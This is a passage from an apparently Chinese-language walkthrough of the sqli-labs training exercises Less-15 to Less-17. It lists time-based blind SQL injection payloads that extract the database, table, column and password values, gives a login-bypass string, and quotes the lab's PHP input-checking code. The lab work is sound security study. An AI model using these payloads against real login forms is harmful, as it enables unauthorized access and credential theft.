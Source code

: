 爆库，表，列名，值，

```
uname=admin' and if(length(database())=8,sleep(5),1)--+&passwd=admin&submit=Submit

uname=admin' and if(left(database(),1)='s',sleep(5),1)--+&passwd=admin&submit=Submit

uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+&passwd=admin&submit=Submit

uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+&passwd=admin&submit=Submit

uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit

uname=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit
```



## 0X10Less-16

“）闭合 其他和Less-15一样  （无报错回显，采用时间延迟注入）

![image-20201111093559168](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111093559168.png)

万能账号绕过密码验证：admin")#

## 0X11Less-17

```
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		}

​		// Stripslashes if magic quotes enabled
​		if (get_magic_quotes_gpc())
​			{
​			$value = stripslashes($value);
​			}

​		// Quote if not a number
​		if (!ctype_digit($value))
​			{
​			$value = "'" . mysql_real_escape_string($value) . "'";
​			}
​		
​	else
​		{
​		$value = intval($value);
​		}
​	return $value;
​	}

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
```
